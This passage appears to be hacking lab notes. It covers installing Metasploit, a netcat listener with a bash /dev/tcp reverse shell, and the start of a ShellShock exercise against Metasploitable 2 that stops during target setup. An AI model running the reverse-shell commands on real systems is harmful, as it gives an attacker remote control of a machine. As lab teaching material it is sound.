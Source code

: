 ```

### Install Metasploit on Digitalocean - Version 2 (Ubuntu)

  * https://webtips4u.com/guides/linux/learn-how-to-install-metasploit-framework-on-ubuntu-18-04-16-04/

### ReverseShell


### Control-Node main.example.com

```
## here we will issue the commands
nc -l 4444
```

### Hacked node secondary.example.com

```
bash -i >& /dev/tcp/192.168.56.103/4444 0>&1
```

### Hacking I - ShellShock (unprivileged permissions)


### Todo 1: Prepare the target (metasploitable 2) 

```
## metasploitable 2 should be up and running 

## Step 1:
## als root: sudo su 
## password: msfadmin 
cd /usr/lib/cgi-bin
vi hello.sh
## --> content (#! /bin/bash will be the first line 

##! /bin/bash
echo "Content-type: text/html"
echo ""
echo "Hello world!"

## Step 2 (permissions)
chmod 755 hello.sh 
